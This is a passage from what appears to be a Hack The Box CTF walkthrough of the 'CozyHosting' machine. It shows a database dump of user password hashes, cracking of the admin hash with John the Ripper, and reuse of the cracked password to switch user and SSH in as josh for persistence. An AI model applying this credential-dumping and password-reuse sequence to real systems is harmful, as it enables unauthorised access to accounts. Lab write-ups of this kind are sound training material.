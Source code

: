 The users table seems interesting:

```
cozyhosting=# select * from users;
WARNING: terminal is not fully functional
Press RETURN to continue 
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)
```
Cool. I think we've already discovered kanderson's hash from the `.jar` file, so lets try cracking the admin hash:

Nice, john was able to crack the hash for us:

![cozyhosting_jtr.png](../assets/cozyhosting_assets/cozyhosting_jtr.png)

No dice using the cracked password for root, but it does work for josh:

```
app@cozyhosting:/app$ su root
Password: 
su: Authentication failure
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ whoami
josh
```

I'll go ahead and use this password to SSH in as josh, just for some persistence:

```
┌──(ryan㉿kali)-[~/HTB/CozyHosting]
└─$ ssh josh@10.10.11.230                                        
The authenticity of host '10.10.11.230 (10.10.11.230)' can't be established.
ED25519 key fingerprint is SHA256:x/7yQ53dizlhq7THoanU79X7U63DSQqSi39NPLqRKHM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
```
